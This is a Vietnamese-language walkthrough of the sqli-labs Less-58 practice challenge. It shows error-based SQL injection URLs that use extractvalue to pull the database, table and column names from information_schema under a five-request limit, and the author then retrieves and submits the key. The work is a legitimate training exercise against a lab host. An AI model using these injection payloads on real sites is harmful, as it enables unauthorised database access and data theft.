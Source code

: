 # Less 58

Ta thấy đề bài cũng tương tư những bài trước. Nhưng ở bài này chỉ cho phép tối đa là 5 request. Nếu quá 5 request thì tên cột và tên bảng sẽ bị reset.

![](../images/sqli-labs/Less-58/01.png)

Truyền thử giá trị

![](../images/sqli-labs/Less-58/02.png)

Thử một vài giá trị có thể gây ra lỗi

![](../images/sqli-labs/Less-58/03.png)

Tôi thấy ở đây đã có lỗi của SQL hiển thị lên màn hình. Dựa vào đây chúng ta có thể khai thác được thông tin bằng cách này.

![](../images/sqli-labs/Less-58/04.png)

Show tên DB đang thực hiện thao tác

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select database())))--+
```

![](../images/sqli-labs/Less-58/07.png)

Show tên bảng

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = "challenges")))--+
```

![](../images/sqli-labs/Less-58/08.png)

Show tên các cột trong bảng

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = "challenges" and table_name="XV0TFYJPTM")))--+
```

![](../images/sqli-labs/Less-58/12.png)

Lấy key

![](../images/sqli-labs/Less-58/11.png)

Thực hiện submit thành công

![](../images/sqli-labs/Less-58/10.png)

Trong bài này số request rất ít nên tôi phải thực hiện reset lại challenge nhiều lần thì tối mới có thể lấy được key.